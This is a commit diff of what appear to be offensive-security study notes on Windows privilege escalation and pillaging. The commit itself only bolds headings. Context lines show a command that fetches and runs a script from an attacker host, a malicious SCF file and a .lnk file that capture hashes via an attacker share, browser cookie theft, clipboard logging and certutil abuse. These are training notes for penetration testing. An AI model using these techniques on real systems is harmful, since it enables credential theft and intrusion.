

Before and after one commit to 0xabsec/0xabsec.github.io, a Jekyll site: the page built from pages/windowsPriv2.md, in a window 1280 px wide. Shown: the part 4212-6132 px from the top of the page at 76% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
initial commit

````diff
--- a/pages/windowsPriv2.md
+++ b/pages/windowsPriv2.md
@@ -183,7 +183,7 @@ C:\Program Files\Windows PowerShell\*
 
 ### Interacting with Users
 
-#### Process Command Lines
+#### **Process Command Lines**
 
 ##### Monitoring for Process Command Lines
 
@@ -208,7 +208,7 @@ We can host the script on our attack machine and execute it on the target host a
 PS C:\> IEX (iwr 'http://<ip>/procmon.ps1')
 ```
 
-#### SCF on a File Share
+#### **SCF on a File Share**
 
 ##### Malicious SCF File
 
@@ -222,7 +222,7 @@ IconFile=\\<ip>\share\legit.ico
 Command=ToggleDesktop
 ```
 
-#### Capturing Hashes with a Malicious .lnk File
+#### **Capturing Hashes with a Malicious .lnk File**
 
 Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious .lnk file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell
 
@@ -240,7 +240,7 @@ $lnk.Save()
 
 Pillaging is the process of obtaining information from a compromised system. It can be personal information, corporate blueprints, credit card data, server information, infrastructure and network details,passwords, or other types of credentials, and anything relevant to the company or security assessment we are working on.
 
-#### Get Installed Programs via PowerShell & Registry Keys
+#### **Get Installed Programs via PowerShell & Registry Keys**
 
 ```
 PS C:\> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
@@ -248,7 +248,7 @@ PS C:\> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Wind
 PS C:\> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
 ```
 
-#### Abusing Cookies to Get Access
+#### **Abusing Cookies to Get Access**
 
 ##### Copy Firefox Cookies Database
 
@@ -273,7 +273,7 @@ PS C:\> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies"
 PS C:\> Invoke-SharpChromium -Command "cookies <site.com>"
 ```
 
-#### Clipboard
+#### **Clipboard**
 
 We can use the [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) script to extract user clipboard data. Start the logger by issuing the command below
 
@@ -286,7 +286,7 @@ PS C:\> Invoke-ClipboardLogger
 
 ### Miscellaneous Techniques
 
-#### LOLBAS
+#### **LOLBAS**
 
 The LOLBAS project documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems. Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft for example [certutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)
 
@@ -308,7 +308,7 @@ C:\> certutil -encode file1 encodedfile
 C:\> certutil -decode encodedfile file2
 ```
 
-#### Always Install Elevated
+#### **Always Install Elevated**
 
 ##### Enumerating Always Install Elevated Settings
 
@@ -319,7 +319,7 @@ PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
 ```
 >> if key is set to 0x1 then always install elevated exist
 
-#### Scheduled Tasks
+#### **Scheduled Tasks**
 
 ##### Enumerating Scheduled Tasks
 
@@ -334,7 +334,7 @@ PS C:\> Get-ScheduledTask | select TaskName,State
 ```
 >> By default, we can only see tasks created by our user and default scheduled tasks that every Windows operating system has. Unfortunately, we cannot list out scheduled tasks created by other users (such as admins) because they are stored in C:\Windows\System32\Tasks, which standard users do not have read access to
 
-#### User/Computer Description Field
+#### **User/Computer Description Field**
 
 ##### Checking Local User Description Field
 
````
